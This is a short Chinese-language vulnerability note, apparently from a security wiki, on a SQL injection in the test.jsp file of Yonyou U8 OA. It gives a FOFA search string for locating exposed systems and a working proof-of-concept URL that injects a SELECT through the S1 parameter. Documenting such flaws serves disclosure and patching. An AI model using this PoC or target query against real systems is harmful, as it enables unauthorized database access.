 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

> 用友 U8 OA 

## FOFA

> "用友U8-OA"

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.xypbk.com/Web%E5%AE%89%E5%85%A8/%E8%87%B4%E8%BF%9Coa/%E8%87%B4%E8%BF%9COA%20A6%20test.jsp%20sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)



登录页面如下

![](resource/用友-U8-OA-SQL注入/yongyou-11.png)

POC

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![](resource/用友-U8-OA-SQL注入/yongyou-12.png)

利用方法与致远OA 的SQL注入类似